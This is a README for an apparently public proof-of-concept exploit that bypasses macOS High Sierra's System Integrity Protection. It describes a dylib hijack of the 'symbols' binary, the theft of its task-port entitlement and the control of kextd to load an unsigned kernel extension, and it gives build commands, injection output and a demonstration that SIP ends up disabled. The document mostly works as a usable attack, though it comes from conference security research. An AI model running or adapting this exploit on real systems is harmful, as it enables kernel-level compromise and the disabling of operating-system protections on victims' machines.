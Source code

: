 # macOS 10.13.x SIP bypass (kernel privilege escalation)

Works only on High Sierra, and requires root privilege. It can be chained with my previous local root exploits.

## Slides

https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20ModJack%20-%20Hijacking%20the%20MacOS%20Kernel%20-%20Zhi%20Zhou.pdf

* `symbols` has `com.apple.system-task-ports` entitlement thus it can get the task port of `kextd` via `task_for_pid` (requires root because kextd has euid 0)
* Trigger dylib hijack to load evil payload in process `symbols` and steal the entitlement and control `kextd`
* `kextd` / `kextutil` / `kextload` are `com.apple.rootless.kext-secure-management` entitled, with whom the they can send MKext request to XNU to load KEXT
* All the validation are checked in userland: code signature, root filesystem permission, User-Approved Kernel Extension Loading, KEXT staging. Just ask XNU to load our KEXT without code signature

## Build

First, grab the dependencies

```sh
git submodule init
git submodule update
```

Build [Unrootless.kext](https://github.com/LinusHenze/Unrootless-Kext)

```sh
pushd 3rd-party/Unrootless-Kext ; xcodebuild ; popd
```

Build kernel exploit

```sh
pushd libinj ; make ; popd; pushd kernel ; make ; popd
```

## Run

```
$ sudo ./kernel/bin/exp
Password:
2019-05-13 01:11:14.826 exp[666:7308] [LightYear] taytay pid: 668
2019-05-13 01:11:14.828 exp[666:7308] [LightYear] status: 0, pid 669
2019-05-13 01:11:14.892 symbols[669:7313] [LightYear] I am in symbols
2019-05-13 01:11:14.895 symbols[669:7313] [LightYear] inject /Users/test/Downloads/1/kernel/bin/Toolchains/XcodeDefault.xctoolchain/> usr/lib/libswiftDemangle.dylib to kextd
get task port (OK)
allocate stack (OK)
remote stack 0x10714d000
allocate code (OK)
remote code 0x1041e7000
write loader code (OK)
mark code as eXecutable (OK)
mark stack as RW (OK)
write params (OK)
create remote thread (OK)
So it's gonna be forever
```

Then try to load any unsigned KEXT

```
$ csrutil status
System Integrity Protection status: enabled.
$ codesign -dvvv "./3rd-party/Unrootless-Kext/build/Release/Unrootless.kext"
./3rd-party/Unrootless-Kext/build/Release/Unrootless.kext: code object is not signed at all
$ sudo kextload 3rd-party/Unrootless-Kext/build/Release/Unrootless.kext
$ csrutil status
System Integrity Protection status: disabled.
```
